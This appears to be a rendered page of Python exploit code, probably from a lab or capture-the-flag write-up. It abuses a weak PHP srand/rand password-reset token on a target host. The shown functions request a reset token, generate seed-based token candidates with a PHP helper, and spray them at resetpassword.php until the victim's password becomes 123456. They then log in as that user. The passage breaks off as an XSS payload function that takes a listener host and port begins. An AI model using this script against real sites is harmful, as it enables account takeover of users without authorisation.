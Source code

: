 ```py

def sendToken(rhost,username): 
    print("[+] Send the token for the username: %s ! [+]" %username)
    url = "http://%s:80/forgotpassword.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "%s" %username}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Sent ! [+]")
    
# Function to mount the php payload to make the spray
def mountPhpSpray(seed1,seed2):
    print("[+] Let's mount the php seed generator ! [+]")
    payload = "<?php\n"
    payload += "function generateToken($value) {\n"
    payload += "    srand(round($value));\n"
    payload += "    $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_';\n"
    payload += "    $ret = '';\n"
    payload += "    for ($i = 0; $i < 32; $i++) {\n"
    payload += "        $ret .= $chars[rand(0,strlen($chars)-1)];\n"
    payload += "    }\n"
    payload += "    return $ret;\n"
    payload += "}\n"
    payload += "foreach (range(" + str(seed1) + "," + str(seed2) + ") as $value) {\n"
    payload += "    echo generateToken($value);\n"
    payload += "    echo \"\\n\";\n"
    payload += "}\n"
    payload += "?>\n"
    f = open("spray.php", "w")
    f.write(payload)
    f.close()
    os.system("php spray.php > seed_list.txt")
    print("[+] Seed list created ! [+]")
    
# Let's spray the token
def sprayToken(rhost):
    print("[+] Let's spray ! [+]")
    url = "http://%s:80/resetpassword.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    f = open("seed_list.txt", "r")
    values = f.readlines()
    for token_value in values:
        token_value = token_value.rstrip()
        data = {"token": "%s" %token_value, "password1": "123456", "password2": "123456"}
        res = r.post(url, headers=headers, data=data, proxies=proxies)    
        if res.headers['Content-Length'] != "578":
            print("[+] Password Changed !! [+]")
            print("[+] Token Used: %s ! [+]" %token_value) 
            print("[+] New password: 123456 [+]")
            break
        else:
            continue
            
# Function to login as the user sprayed
def loginUser(rhost,username):
    print("[+] Let's login with the user: %s !! [+]" %username)
    url = "http://%s:80/login.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "%s" %username, "password": "123456"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Logged In ! [+]")
    
# Function to mount the XSS payload
def mountJS(lhost,lport):
```